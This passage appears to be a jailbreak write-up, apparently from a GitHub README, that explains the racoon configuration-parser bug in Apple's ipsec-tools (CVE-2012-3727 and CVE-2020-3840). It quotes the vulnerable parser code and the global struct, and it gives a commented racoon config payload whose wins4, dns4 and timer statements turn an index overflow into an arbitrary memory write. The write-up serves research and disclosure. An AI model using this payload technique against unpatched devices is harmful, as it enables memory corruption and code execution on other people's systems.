 ```C
			    &icc->nbns4[icc->nbns4_index++]) != 1) // this call will then parse the ip address string into an uint32_t and then post increment the index
				racoon_yyerror("bad IPv4 WINS address.");

			vfree($1);
#else
			racoon_yyerror("racoon not configured with --enable-hybrid");
#endif
		}
	;
```
The global struct looks like this (defined under https://opensource.apple.com/source/ipsec/ipsec-317.220.1/ipsec-tools/racoon/isakmp_cfg.h.auto.html):
```
struct isakmp_cfg_config {
	in_addr_t		network4;
	in_addr_t		netmask4;
	in_addr_t		dns4[MAXNS];
	int			dns4_index;
	in_addr_t		nbns4[MAXWINS]; // MAXWINS is defined as 4
	int			nbns4_index; // note that this is an int so it could contain negativ values
	[...]
};
```
This means that we can use this to trigger a relativ out of bounds write with the following syntax (and then turn it into an absolute one):
```
mode_cfg {
	wins4 1.1.1.1; // increment the nbns4_index by one [0 => 1]
	wins4 1.1.1.1; // increment the nbns4_index by one [1 => 2]
	wins4 1.1.1.1; // increment the nbns4_index by one [2 => 3]
	wins4 1.1.1.1; // increment the nbns4_index by one [3 => 4] (now it is pointing out of bounds/pointing to our own nbns4_index value)
	wins4 255.255.255.255; // this will get converted into the uint32_t 0xffffffff => -1 if you convert it to an int so the nbns4_index will now have the value -1 and with that pointing to the dns4_index
	wins4 50.253.255.255; // this will now overwrite the dns4_array index with -718 and increment the nbns4_index by 1 again so it's 0 again now and we can repeat this as often times as we want
	dns4 255.255.255.255; // now we can use the dns4 statments here to smash a pointer in the globals (lcconf ptr)
	dns4 255.255.255.255; // smash upper half (as the dns4 array index will also get incremented every time)
}
timer { // now we can use this timer statment
	counter 1212; // with a counter statment to deref the lcconf ptr and then write anywhere in process memory
	interval 1212 usec;
}
```
If the explanation in text form wasn't enough for you please look at the slides/presentation of both littlelailo and pod2g ([2012 WWJC](https://papers.put.as/papers/ios/2012/pod2g-jailbreak-techniques-wwjc-2012.pdf) and [Hack in the Box](https://conference.hitb.org/hitbsecconf2012ams/materials/D2T2%20-%20Jailbreak%20Dream%20Team%20-%20Corona%20Jailbreak%20for%20iOS%205.0.1.pdf
)) that have a graphic visualization of the bug.
The bug was "fixed" by Apple in 2012 in iOS 6 as CVE-2012-3727 but fixed the bug in the wrong function (dns4 one) so this bug was not patched until iOS 13.3.1 as CVE-2020-3840.
